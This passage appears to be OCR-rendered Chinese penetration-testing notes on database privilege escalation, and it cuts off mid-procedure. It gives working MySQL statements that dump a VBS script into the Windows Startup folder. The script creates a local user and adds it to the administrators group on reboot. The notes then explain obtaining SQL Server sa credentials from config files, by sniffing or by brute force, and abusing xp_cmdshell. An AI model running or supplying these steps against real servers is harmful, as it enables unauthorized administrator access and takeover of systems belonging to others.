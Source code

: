 ```
create table a(cmd text)
```

  
//创建了一个新的表，名为a，表中只存放了一个字段，字段名为cmd，为text文本  
  
- 在表中插入内容，用这三条命令来建立一个VBS的脚本程序:  
  

```
insert into a values(&#34;set wshshell=createobject(&#34;&#34;wscript.shell&#34;&#34;)&#34;);
```

  

```
insert into a values(&#34;a=wshshell.run(&#34;&#34;cmd.exe /c net user name passwd /add&#34;&#34;,0)&#34;);
```

  

```
insert into a values(&#34;b=wshshell.run(&#34;&#34;cmd.exe /c net localgroup administrators name /add&#34;&#34;,0)&#34;);
```

  
1. 输出表为一个VBS的脚本文件  

```
select * from a into dumpfile &#34;C:\Documents and Settings\Administrator\「开始」菜单\程序\启动1.vbs&#34;;
```

  
  
1. 利用其他手段重启电脑  
  
### sql server提权  
- 利用条件  
  
- 必须获得sa的账号密码或者与sa相同给权限的账号密码，且mssql没有被降权  
  
- 能执行sql语句。如webshell或者1433端口连接  
  
在windows，sa账号通常是被降权为db-owner的。而不是sysadmin  
- 获取sa号密的方法：  
  
> webshell或源码获取。一般在网站的配置文件中存了明文账号密码，常用配置文件如：conn.aspx、config.aspx、config.php等一般格式如：server=localhost;UID=sa;PWD=passwd;database=db源码泄露嗅探。在局域网中用Cain等工具进行arp嗅探的时候可以抓取到1433端口的数据库明文登录暴力破解  
  
#### xp_cmdshell提权  
> xp_cmdshell:存储过程：是存储在SQLServer中预先定义好的"sql语言集合"，使用T-SQL语言编写好的脚本共同组成的集合体为存储过程xp_cmdshell脚本：扩展存储过程的脚本，是危险性最高的脚本，可以执行操作系统的任何指令xp_cmdshell在mssql2000中是默认开启的，在mssql2005后的版本中默认禁止。如果用户具有sa权限可以用sp_configure重新开启  
  
  
xp_cmdshell提权过程：  
  
（2005以前的版本):  
1. 连接数据库：  

```
select ame from master.dbo.sysdatabases
```
